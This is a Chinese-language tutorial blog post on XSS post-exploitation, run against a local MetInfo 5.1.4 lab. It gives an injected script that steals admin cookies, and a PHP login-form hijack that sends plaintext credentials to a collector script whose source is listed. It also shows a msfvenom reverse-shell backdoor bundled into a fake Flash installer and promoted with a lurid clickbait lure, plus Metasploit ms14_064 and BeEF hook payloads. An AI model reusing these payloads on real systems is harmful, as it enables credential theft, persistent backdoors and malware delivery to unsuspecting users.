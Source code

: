 ![1645923603748-30bd8487-d0ca-4742-854d-0d4e67070d35.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172422304-1180766360.png)

```plain
#知识点： 1、XSS跨站-另类攻击手法分类 2、XSS跨站-权限维持&钓鱼&浏览器等 1、原理 指攻击者利用网站程序对用户输入过滤不足，输入可以显示在页面上对其他用户造成影响的HTML代码，从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。通过在用户端注入恶意的可执行脚本，若服务器对用户的输入不进行处理或处理不严，则浏览器就会直接执行用户注入的脚本。 -数据交互的地方 get、post、headers 反馈与浏览 富文本编辑器 各类标签插入和自定义 -数据输出的地方 用户资料 关键词、标签、说明 文件上传 2、分类 反射型（非持久型） 存储型（持久型） DOM型 mXSS(突变型XSS)  UXSS（通用型xss） Flash XSS UTF-7 XSS MHTML XSS CSS XSS  VBScript XSS 3、危害 网络钓鱼，包括获取各类用户账号； 窃取用户cookies资料，从而获取用户隐私信息，或利用用户身份对网站执行操作； 劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、发表日志、邮件等； 强制弹出广告页面、刷流量等； 网页挂马； 进行恶意操作，如任意篡改页面信息、删除文章等； 进行大量的客户端攻击，如ddos等； 获取客户端信息，如用户的浏览历史、真实ip、开放端口等； 控制受害者机器向其他网站发起攻击； 结合其他漏洞，如csrf,实施进一步危害； 提升用户权限，包括进一步渗透网站； 传播跨站脚本蠕虫等 4、修复 见绕过课程对比参考 #XSS跨站系列内容： 1、XSS跨站-原理&分类&手法 2、XSS跨站-探针&利用&审计 3、XSS跨站-另类攻击手法利用 4、XSS跨站-防御修复&绕过策略
```

- XSS-后台植入Cookie&表单劫持

------

```plain
-条件：已取得相关web权限后 获取cookie的时候有时候会获取不全（phpsessid验证） 表单劫持可以得到一些权限维持，密文密码解密不了。可以通过他来获取明文账号密码。
已经取得了权限，要对后台的权限进行长期控制，可以借助xss盗取cookie，把他写入代码到登录成功文件，利用beef或xss平台实时监控Cookie等凭据实现权限维持 这种方法即使他把后台账号密码改了，也可以进行权限维持。（不会被后门工具识别。） 比如：登录的框页面http://127.0.0.1:8105/admin/login/login.php 登录成功后会跳转到http://127.0.0.1:8105/admin/index.php?lang=cn 我们就可以在登录成功的admin/index.php上进行操作，写入<sCRiPt sRC=//xss.pt/X8Vz></sCrIpT> 进行登录，然后就可以触发到相对应的代码。
```

![1645930438846-51b01966-10c6-48fe-a3b8-3b95087c9755.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504480-1816928231.png)

```plain
可以观察到，他加载的数据包的内容
```

![1645930528211-65b05c55-4c00-4f7c-8690-355d6b4ee154.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505889-1871563938.png)

```plain
这样，只要登录成功就能获取，就能进行实时控制。进行了权限维持。 但是有一些网站不采用cookie，即使获取到了，但是还是不能登录。 正常来讲，访问这个地址：http://127.0.0.1:8105/admin/index.php?lang=cn 进行抓包修改cookie： UM_distinctid=17f38be65b3495-049fe07b7f19bd-e726559-1fa400-17f38be65b4b7d; CNZZDATA1670348=cnzz_eid%3D674406514-1645919148-%26ntime%3D1645919148; coul=8; lastvisit=0%091645924524%09%2F; _ac_app_ua=a0540fb14f9cd9d34f; recordurl=%2Chttp%253A%252F%252F127.0.0.1%253A8105%252F%2Chttp%253A%252F%252F127.0.0.1%253A8105%252Fabout%252Fshow.php%253Flang%253Dcn%2526id%253D19%2Chttp%253A%252F%252F127.0.0.1%253A8105%252Fnews%252F%2Chttp%253A%252F%252F127.0.0.1%253A8105%252Fjob%252F%2Chttp%253A%252F%252F127.0.0.1%253A8105%252F%2Chttp%253A%252F%252F127.0.0.1%253A8105%252F%2Chttp%253A%252F%252F127.0.0.1%253A8105%252F%2Chttp%253A%252F%252F127.0.0.1%253A8105%252F; PHPSESSID=e8gt6fhf1ba01jln0m6t0ljni1
```

![1645930888084-0913c117-274e-4a12-b9f0-cef3078f4090.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505218-616665476.png)

```plain
但是返回包里明显还是登录不成功。 正确的cookie信息：UM_distinctid=17e46c24838315-027dd22377488f8-1262694a-144000-17e46c24839418; CNZZDATA3801251=cnzz_eid%3D1994470479-1641863151-%26ntime%3D1645228788; CNZZDATA1670348=cnzz_eid%3D1668791702-1645652947-%26ntime%3D1645652947; PHPSESSID=smd97a9vae15lsg0tf2claaoi3 可以得知他获取的cookie是不全的，或者说错误的。一般来说少了phpsessid (有防护)
那么就来进行实时的获取明文账号密码，这样才能进行权限维持。需要一定的基础量，能读懂数据的传输流程。 那么现在观察一下这个网站的登录流程是怎样的。 登录地址http://127.0.0.1:8105/admin/login/login.php 找到想对应的代码段D:\phpstudy_pro\WWW\xss-MetInfo5.1.4\admin\login\login.php 抓取登录的数据包
```

![1645931769293-0668f567-0b99-4edc-9c95-e60cbea30cc5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172503193-259714763.png)

```plain
可以看到，他提交的数据包是给了login_check.php文件，也就是说，他的账号密码是发送给了login_check.php这个文件。 查看提交的数据
```

![1645932659164-9f516362-c71f-490a-97ce-8135adcc8153.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504016-1501658563.png)

```plain
action=login&loginlang=login.php%3Flangset%3Dcn&login_name=admin&login_pass=admin&Submit=%E7%99%BB%E5%BD%95 再次观察login_check.php
```

![1645932798875-2d6dc940-faee-46e0-9ff3-acedf40c94f6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505591-1439970201.png)

```plain
可以知道两个接受账号密码的变量： 接受账号：$metinfo_admin_name 接受密码：$metinfo_admin_pass 然后用到JavaScript语句来进行账号密码的发送，那么应该怎么构造JavaScript语句呢？ 将账号发送到某个地方 语句构造：<script src="http://www.xiaodi8.com/get.php?user="账号"&pass"密码""></script> 在某个地方来实现接收。get.php实现接收 构造payload： $up='<script src=http://127.0.0.1:8081/web/get.php?user='.$metinfo_admin_name.'&pass='.$metinfo_admin_pass.'></script>'; echo $up;
```

![1645940619160-44aa7521-d167-4920-a1b5-7edea5d87d37.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172503946-541632934.png)

```plain
在http://127.0.0.1:8081/web中穿件get.php代码。 get.php代码： <?php $u=$_GET['user']; $p=$_GET['pass']; $myfile=fopen("newfile.txt","a+"); fwrite($myfile,$u); fwrite($myfile,'|'); fwrite($myfile,$p); fwrite($myfile,'\n'); fclose($myfile); ?> 接收账号密码，写到newfile文件中
然后尝试登录这个网站中，可以看到他尝试请求http://127.0.0.1:8081/web/get.php这个网站，把admin和password发送出去
```

![1645944665210-e5c7ddc4-a7e6-4722-804d-ca08722cb02e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504368-372422206.png)

```plain
在登录下输入的账号密码，就会发送到newfile中记录，这个时候就可以进行测试了。 主要解决两个问题： 1.cookie失败的时候（截取不到）。 2.取得一些权限，密码解密不了。
```

- XSS-Flash钓鱼配合MSF捆绑上线

------

```plain
-条件：beef上线受控后或直接钓鱼（受害者爱看SESE） 1、生成后门，攻击是pc端的。 msfvenom -p windows/meterpreter/reverse_tcp LHOST=47.100.167.248 LPORT=1111 -f exe > flash.exe
```

![1645947250053-258f9072-70ec-4ee5-990f-f41edacaff97.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504162-1986235907.png)

```plain
flash下载官方地址：https://www.flash.cn/ 我们构造的flash下载地址：http://127.0.0.1:8106/   （一般是构造一个比较逼真的网址。） 把后门放在D:\phpstudy_pro\WWW\web\目录上 打开构造好的地址，index.html文件，把立即下载这个地址改为后门下载地址：http://127.0.0.1:8081/web/flash.exe
```

![1645947931558-808fbfbb-1445-4033-b801-9828a497c964.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504480-1486812632.png)

```plain
运行exe并且安装正常的文件，所以需要捆绑正常文件。 在官方网站下载一个正常的flash文件 正常文件：flashcenter_pp_ax_install_cn.exe 后门文件：flash.exe 把两个文件放在一起，压缩
```

![1645948388138-97a2c1ff-9f79-424e-b471-944f2465c1c2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504200-1849298980.png)

```plain
选择高级，自解压选项，解压到c:\windows\temp
```

![1645948483601-4e06f577-4ebc-47f4-9991-04a6da87ab5b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504791-1322580570.png)

```plain
点击设置：
```

![1645948640597-c2a026fa-ce97-4e70-aa68-f0198b0322c7.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504402-1560542301.png)

```plain
在确定，压缩为rar文件。然后再把文件名一改，改成flash_install.exe文件，把图片在进行修改。 图标修改用到Restorator2018_Full_1793_FIX工具。 把两个exe文件拖进去，然后把官方的图片导出。
```

![1645949000852-8c465f4c-09f4-43cc-be7a-20c9122ec1c3.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505807-1026465527.png)

```plain
然后再把他导入我们创建的exe中，但是我这里发生了错误。
```

![1645949390125-b7055bce-068b-4ecf-8e5d-85213f094893.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172506129-913532207.png)

```plain
启动msf监听： msfconsole use exploit/multi/handler  set payload windows/meterpreter/reverse_tcp set lhost 0.0.0.0 set lport 1111 run
```

![1645949796543-4278c321-9e0d-49df-bafe-fe7bd79dfa26.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504659-1609821053.png)

```plain
那个别人是怎么访问你这个地址呢？ 1.通过xss beef来让浏览器自动访问下载后门，并且运行 2.直接发给对方诱使他去访问。 通过发送消息，比如小迪与某主播瑟瑟画面流出：http://127.0.0.1:8081/web/诱惑.html 当访问想看的时候
```

![1645950387936-984f7564-06b6-4f8a-9fcd-588df92c064f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505885-1283347611.png)

```plain
访问，直接跳转，然后配合后门上线
```

![1645974874880-401e9a76-547e-4dd2-b6e2-ae79f9e64dd8.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505553-262805369.png)

```plain
执行后门，上线完成
```

![1645975051732-5fa348af-156b-4024-a96c-4944c5eb81d8.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505881-445832978.png)

```plain
这一类遇到的问题：免杀问题（后门下载下来会遭到火绒等查杀）
```

- XSS-浏览器网马配合MSF访问上线

------

```plain
-条件：beef上线受控后或直接钓鱼（浏览器存在0day） 配合漏洞CVE-2019-1367，这个版本是IE11的漏洞，但是没有公开exp。 参考文章：https://www.cnblogs.com/yuzly/p/11609934.html 漏洞CVE-2020-1380：https://bbs.pediy.com/thread-263885.htm 但是前面的漏洞并没有公开，所以只能用到ms14_064这个漏洞，参考https://blog.csdn.net/wylululu/article/details/103868759 用的是Windows7这个版本的IE，在当前的网络环境中就很少他了。 1、配置MSF生成URL use exploit/windows/browser/ms14_064_ole_code_execution set allowpowershellprompt true set target 1 run
```

![1646028417415-aeab27a8-1859-40e9-acd7-2ca27853058a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172504924-946401172.png)

```plain
运行就会生成一个网码地址（http://47.100.167.248:8080/9gwKDtliqQz ），这个地址只要一访问就会被触发。但是这个地址只针对window7操作系统
```

![1646029054102-f2a17b51-3cab-40c5-b743-d37399b44464.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172506049-1416966394.png)

```plain
但是这个不成功，所以需要换一个kali搭建的msf
```

![1646029504625-62dfdad0-9f6c-4568-915e-ea1cc7f69166.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505653-1084962839.png)

```plain
这个只要访问就可以拿下服务器权限。还需要用满足的浏览器和Windows版本。 内核，操作系统，还有杀毒软件，都会导致失败。要懂得前提条件，不是只要访问就可以上线。 那么他在xss中如何实现呢？ 启动beef：docker run --rm -p 3000:3000 janes/beef 登录beef：47.100.167.248:3000/ui/panel 构造代码：<script src=http://47.100.167.248:3000/hook.js></script> 把代码放在博客上（或者本地上）放在web/test.html上 只要在虚拟机中访问192.168.199.1:8081/web/test.html
```

![1646031279089-c877f92b-e9cc-4e75-92d3-192611375662.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505858-679353123.png)

```plain
上线到beef上，利用浏览器跳转功能
```

![1646031545946-985a8596-b895-4dd0-a855-cc36225a2488.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912172505850-545346840.png)

```plain
然后就可以上线，完成测试。
```